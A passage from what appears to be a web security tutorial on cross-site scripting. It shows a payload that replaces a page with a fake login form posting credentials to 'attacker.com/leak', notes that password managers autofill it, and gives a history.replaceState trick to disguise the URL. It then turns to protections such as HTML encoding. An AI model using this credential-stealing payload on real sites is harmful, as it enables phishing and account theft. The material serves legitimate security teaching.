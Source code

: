 If you instead use full JavaScript capabilities and overwrite the HTML on a page, you can create a form on the _real domain_ that password managers will happily fill out and make the victim trust:

{% code title="Payload" %}
```html
document.body.innerHTML = `
    <form action="http://attacker.com/leak" method="post">
        <input type="text" name="username"><br>
        <input type="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
`
```
{% endcode %}

![](<../../.gitbook/assets/image (6) (1).png>)

Since you are executing code on the same origin, you can even **open windows** to the same domain, and control their HTML content. With this, you could create a popup window showing the real domain in the address bar, with some login form or other data.&#x20;

#### Masking a suspicious URL

A last tricky part is the URL shown in the address bar at the time of your XSS, which may make your URL like "http://target.com/endpoint?url=javascript:document.body.innerHTML=..." showing a login page very suspicious to people who check the URL. Luckily, the same origin policy comes to the rescue once again because using the [History API](https://developer.mozilla.org/en-US/docs/Web/API/History_API) we can **overwrite the path** of a URL. Not its origin, but its path. That means we can change the suspicious URL to something expected like "/login", making it way more believable:

```javascript
history.replaceState(null, null, "/login");
```

## Protections

XSS is a well-known issue, and many protections try to limit its possibility on websites. There are basically two cases a website needs to handle when reflecting a user's content:

1. Content, but **no HTML** is allowed (almost all data)
2. **Limited HTML tags** are allowed (rich text like editors)

The **1st** is very easily protected by using HTML Encoding. Many frameworks already do this by default, and explicitly have you write some extra code to turn it off. Most often this encodes only the special characters like `<` to `&lt;`, `>` to `&gt;`, and `"` to `&quot;`. While this type of protection is completely safe in most cases, some situations exist where these specific characters are _not required_ to achieve XSS. We've seen examples of [#attribute-injection](cross-site-scripting-xss.md#attribute-injection "mention") where a `'` single quote is used instead, which may not be encoded and thus can be escaped. Or when your attribute is not enclosed at all and a simple   space character can add another malicious attribute. With [#script-injection](cross-site-scripting-xss.md#script-injection "mention") this is a similar story, as well as [#dom-xss](cross-site-scripting-xss.md#dom-xss "mention").&#x20;
